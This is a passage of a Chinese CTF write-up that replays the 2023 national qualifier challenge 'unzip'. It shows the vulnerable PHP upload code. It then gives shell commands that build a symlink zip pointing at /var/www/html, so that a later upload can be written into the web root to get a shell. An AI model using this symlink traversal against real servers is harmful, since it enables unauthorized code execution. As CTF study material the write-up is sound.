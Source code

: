 

# 2023 国赛初赛题目复现学习 - 先知社区

2023 国赛初赛题目复现学习

- - -

## unzip

登录进去之后发现是一个文件上传的题目，查看源码

```plain
<?php
error_reporting(0);
highlight_file(__FILE__);

$finfo = finfo_open(FILEINFO_MIME_TYPE);
//创建了一个文件信息对象 finfo，用于获取文件的 MIME 类型信息。FILEINFO_MIME_TYPE 是一个常量，表示获取 MIME 类型。
if (finfo_file($finfo,$_FILES["file"]["temp_name"]) === 'application/zip'){
    exec('cd /tmp && unzip -o' . $_FILES["file"]["tmp_name"]);
    //检查文件的 MIME 类型。如果上传的文件是 ZIP 文件（MIME 类型为 application/zip），则将其解压缩到服务器的/tmp 目录，并且覆盖原文件。
};
```

此题上传的文件被保存到了/tmp 目录下，而且没有 require 和 include 这种文件包含的点，因此无法直接执行上传文件里面的代码，因此这里考虑利用软连接，进行目录穿越，将文件上传到任意目录

> **软连接**是 linux 中一个常用命令，它的功能是为某一个文件在另外一个位置建立一个同步的链接。软连接类似与 c 语言中的指针，传递的是文件的地址；更形象一些，软连接类似于 WINDOWS 系统中的快捷方式。例如，在 a 文件夹下存在一个文件 hello，如果在 b 文件夹下也需要访问 hello 文件，那么一个做法就是把 hello 复制到 b 文件夹下，另一个做法就是在 b 文件夹下建立 hello 的软连接。通过软连接，就不需要复制文件了，相当于文件只有一份，但在两个文件夹下都可以访问。

可以考虑软连接进行目录穿越的几个特征：

-   有文件上传接口，但是上传文件的目录不能确定
-   可以上传 zip 文件并且会将文件解压到上传目录下
-   可以 getshell 的文件可以绕过 waf 成功上传

此题符合几个特征，因此可以尝试此方法

解题：

创建构造一个指向`/var/www/html`的软连接

> 因为 html 目录下是 web 环境，为了后续可以 getshell

```plain
┌──(root㉿kali)-[~/桌面]
└─# ln -s /var/www/html/ link
```

打包到到 1.zip，对 link 文件进行压缩。

```plain
┌──(root㉿kali)-[~/桌面]
└─# zip --symlinks 1.zip link
```
